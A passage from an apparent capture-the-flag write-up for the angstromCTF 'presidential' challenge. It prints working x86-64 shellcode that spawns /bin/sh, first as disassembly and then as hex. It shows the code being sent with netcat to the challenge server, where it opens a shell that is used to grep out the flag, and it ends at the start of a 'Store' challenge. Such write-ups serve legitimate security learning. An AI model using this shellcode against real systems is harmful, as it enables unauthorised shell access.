```
6a 42                   push   0x42
58                      pop    rax
fe c4                   inc    ah
48 99                   cqo
52                      push   rdx
48 bf 2f 62 69 6e 2f    movabs rdi, 0x68732f2f6e69622f
2f 73 68
57                      push   rdi
54                      push   rsp
5e                      pop    rsi
49 89 d0                mov    r8, rdx
49 89 d2                mov    r10, rdx
0f 05                   syscall
```
Doing some quick preprocessing in the Python REPL shell:

```python
>>> payload = """
...     0x6a, 0x42, 0x58, 0xfe, 0xc4, 0x48, 0x99, 0x52, 0x48, 0xbf,
...     0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x54,
...     0x5e, 0x49, 0x89, 0xd0, 0x49, 0x89, 0xd2, 0x0f, 0x05"""
>>> payload = "".join([elem.strip()[2:] for elem in payload.split(",")])
>>> payload '6a4258fec448995248bf2f62696e2f2f736857545e4989d04989d20f05'
```

We get a string that the server will accept and run:

```bash
{23:53}~/ctf/angstrom/presidential ➭ nc challs.actf.co 31200
White House declared Python to be memory safe :tm:
So enter whatever you want 👍 (in hex): 6a4258fec448995248bf2f62696e2f2f736857545e4989d04989d20f05
```

This gives as a very slimmed down shell for a few seconds, however we can still grab the information we need:

```bash
{23:54}~/ctf/angstrom/presidential ➭ nc challs.actf.co 31200
White House declared Python to be memory safe :tm:
So enter whatever you want 👍 (in hex): 6a4258fec448995248bf2f62696e2f2f736857545e4989d04989d20f05
grep -Rnw actf .
./run:7:flag = "actf{python_is_memory_safe_4a105261}"
```

## Store
In this challenge, we get a simple storefront.
![assets/images/blog/week9/store-front.png](assets/images/blog/week9/store-front.png)
<br>